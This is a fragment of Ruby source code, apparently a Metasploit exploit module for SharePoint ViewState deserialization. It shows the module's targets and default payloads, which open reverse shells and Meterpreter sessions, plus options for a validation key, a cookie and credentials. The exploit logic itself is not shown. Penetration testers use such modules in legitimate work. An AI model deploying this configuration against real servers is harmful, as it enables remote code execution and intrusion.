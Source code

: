             'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
            'Privileged' => false,
            'Targets' => [
              [
                'Windows Command',
                {
                  'Arch' => ARCH_CMD,
                  'Type' => :win_cmd,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/windows/powershell_reverse_tcp'
                  }
                }
              ],
              [
                'Windows Dropper',
                {
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :win_dropper,
                  'DefaultOptions' => {
                    'CMDSTAGER::FLAVOR' => :psh_invokewebrequest,
                    'PAYLOAD' => 'windows/x64/meterpreter_reverse_https'
                  }
                }
              ],
              [
                'PowerShell Stager',
                {
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :psh_stager,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'windows/x64/meterpreter/reverse_https'
                  }
                }
              ]
            ],
            'DefaultTarget' => 2,
            'DefaultOptions' => {
              'DotNetGadgetChain' => :TypeConfuseDelegate
            },
            'Notes' => {
              'Stability' => [CRASH_SAFE],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
            }
          )
        )

        register_options([
          OptString.new('TARGETURI', [true, 'Base path', '/']),
          OptString.new('VALIDATION_KEY', [false, 'ViewState validation key']),
          OptString.new('COOKIE', [false, 'SharePoint cookie if you have one']),
          OptString.new('SP_LIST', [true, 'SharePoint site SPList', 'Documents']),
          # "Promote" these advanced options so we don't have to pass around our own
          OptString.new('HttpUsername', [false, 'SharePoint username']),
          OptString.new('HttpPassword', [false, 'SharePoint password'])
        ])
      end
